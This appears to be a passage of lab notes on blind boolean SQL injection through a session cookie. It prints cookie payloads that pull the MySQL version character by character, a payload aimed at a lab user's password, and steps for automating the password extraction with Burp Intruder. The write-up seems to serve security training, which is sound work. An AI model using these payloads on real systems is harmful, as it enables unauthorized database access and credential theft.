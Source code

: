 📌 Modifying or manipulating the session cookie by injecting SQL and receiving the same successful response suggests the presence of **SQL injection**

- Make a query that gets the version character by character from the database
  - [MySQL SUBSTRING() Function](https://www.w3schools.com/sql/func_mysql_substring.asp)

```bash
# substring e.g.
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('a', 1, 1) = 'a'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 1) = '8'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 4) = '8.0.'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 5) = '8.0.3'#
# version enumeration Successfully

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username = 'jessamy'), 1, 1) = 'a'#
# takes too long manually
```

- Extract `jessamy`'s password via **Intruder**
  - send the Request to Intruder
  - set the last letter `a` of the inject as Position
  - add all keyboard letters to the payload simple list
  - start attack
  - filter by **length** or **status code**

![Intruder Sniper attack](.gitbook/assets/2025-02-24_22-39-27_905.png)
